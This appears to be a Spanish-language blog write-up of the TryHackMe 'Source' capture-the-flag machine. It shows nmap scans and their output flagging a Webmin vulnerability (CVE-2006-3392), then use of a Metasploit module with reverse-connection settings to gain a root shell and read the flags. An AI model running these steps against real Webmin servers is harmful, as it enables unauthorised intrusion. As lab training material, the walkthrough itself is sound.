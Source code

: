 ```yaml
---
layout: post
title: Tryhackme Soerce
date: 2022-09-04
modified: 2022-09-04
description: resolución de la maquina source de la plataforma tryhackme.
tag:
 - thyhackme
 - ctf
---
```


Iniciamos con un escaneo de nmap. 

	nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn "ip"  -oG ports

El cual nos regresa que hay dos puertos abiertos, el 22 y el 10000.

	# Nmap 7.92 scan initiated Sun Sep  4 15:30:41 2022 as: nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG ports 10.10.144.128
	 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
	Host: 10.10.144.128 ()  Status: Up
	Host: 10.10.144.128 ()  Ports: 22/open/tcp//ssh///, 10000/open/tcp//snet-sensor-mgmt///
	 Nmap done at Sun Sep  4 15:30:59 2022 -- 1 IP address (1 host up) scanned in 17.67 seconds

El puerto 22 como nmap nos indica pertenece a ssh, pero lo dejaremos de lado y nos concentraremos solo en puerto 10000. Si abrimos el navegador vamos y ponemos la ip con el puerto nos mostrara una pantalla de login.

![imagen 1](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-34-49.png)

Ahora sabemos que es un login de webmin. Con ayuda de nmap iniciaremos de nuevo un scaneo, pero esta vez en busca de posibles vulnerabilidades.

	nmap -p22,10000 --script "vuln" -oN vuln 10.10.144.128

Lo cual nos arrojara lo siguiente:

	Nmap 7.92 scan initiated Sun Sep  4 15:31:43 2022 as: nmap -p22,10000 --script vuln -oN vuln 10.10.144.128
	Nmap scan report for 10.10.144.128
	Host is up (0.22s latency).

	PORT      STATE SERVICE
	22/tcp    open  ssh
	10000/tcp open  snet-sensor-mgmt
	| http-vuln-cve2006-3392:
	|   VULNERABLE:
	|   Webmin File Disclosure
	|     State: VULNERABLE (Exploitable)
	|     IDs:  CVE:CVE-2006-3392
	|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
	|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
	|       to bypass the removal of "../" directory traversal sequences.
	|
	|     Disclosure date: 2006-06-29
	|     References:
	|       http://www.exploit-db.com/exploits/1997/
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
	|_      http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure

	 Nmap done at Sun Sep  4 15:32:16 2022 -- 1 IP address (1 host up) scanned in 32.51 seconds

Nmap nos retorna que el servicio webmin es vulnerable. Mas en especifico la versión 1.290. Al ser una versión vieja existen muchos exploits actualmente, por lo que solo hay que buscar en metasploit.

![imagen 2](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-36-21.png)

En este caso vamos a usar el numero 6, para seleccionarlo hacemos un `use 6`En este caso solo hay que rellenar algunos parámetros.

![imagen 3](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-36-59.png)

Parámetros necesarios: 
- RHOSTS: "IP"
- RPORT: 10000
- SSL: true
- LHOST: "La ip de nuestro vpn"
- LPORT:"Lo podemos dejar por defecto si queremos"

Ahora al rellenar todo solo ejecutamos con un `run` y listo.


![imagen 4](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-39-27.png)

Al principio pude ser que no veamos nada, pero si hacemos un "ls" por ejemplo, nos regresa lo que hay en la carpeta, Pero aunque ya tengamos acceso nos daremos cuenta que no podemos movernos de esa carpeta.

Para arreglar eso tendremos que arreglar un poco la shell, aunque es baste fácil.

	script /dev/null -c bash

Con esto ya podremos moverlos libremente. Y listo, si hacemos `whoami` veremos que estamos como root, ahora solo queda leer las flag que están en /root y /home/dark.

![imagen 5](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-source/zero-2022-09-04-15-40-11.png)

